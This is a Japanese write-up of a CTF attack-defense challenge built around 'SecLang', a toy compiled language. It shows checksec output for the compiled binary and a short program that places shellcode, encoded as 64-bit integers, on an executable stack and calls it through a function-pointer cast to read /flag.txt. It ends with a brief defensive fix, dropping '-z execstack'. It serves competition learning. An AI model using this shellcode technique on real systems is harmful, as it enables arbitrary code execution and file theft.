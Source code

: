 # SecLang
SecLangというプログラムミング言語のインタプリタとコンパイラとコンパイラのソースコードが配布されました。
SecLangのインタプリタは未定義動作に対して例外を発生させる処理が実装されていますが、配布された初期状態のコンパイラにはそういった例外処理が実装されていませんでした。
各チームのサーバ上でそのようなSecLangをコンパイルし実行できる環境が動いていて、各チームのサーバの/flag.txtを読み取って提出することで得点が手に入る　という問題でした。

## 攻撃
SecLangにはキャスト機能があることや、関数ポインタ経由で関数を実行できる仕組みを利用しました。

また、コンパイラが生成するバイナリは以下のようにスタック領域が実行可能領域となっていました。
```
$ checksec ./program.elf
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x4000b0)
    RWX:      Has RWX segments
```

なのでshellcodeをスタック上に配列として保存し、配列のアドレスを関数ポインタとして指定し実行することで、/flag.txtを読むshellcodeを実行できました。
競技中1byte要素の配列を作る方法が分からなかったので、shellcodeを8byte要素の配列に保存しています。
```
func main() {
	shellcode = [5206455252099743723,1150160940181012529,10180404549529986565,15145967043662586932,1134961291673188966,128212131051030533,73394811851409736,1097757632678593807,7363385390746363909,32783537688502636];
	(shellcode as int + 16)();
}
```
## 防御
コンパイラのソースコードが配布されていることを忘れていました。
つまり防御を全くしていませんでした。()

今ルールを確認できないのでアレなんですが、コンパイラのソースコードをアップロードする形でコンパイラが生成するバイナリをセキュアにするようだったそうです。
実行可能ファイル生成時のリンカオプションを指定しているassembler/assmbleファイルも更新できるのであれば、`-z execstack`を削除するだけでshellcode実行は阻止できそうですね。。
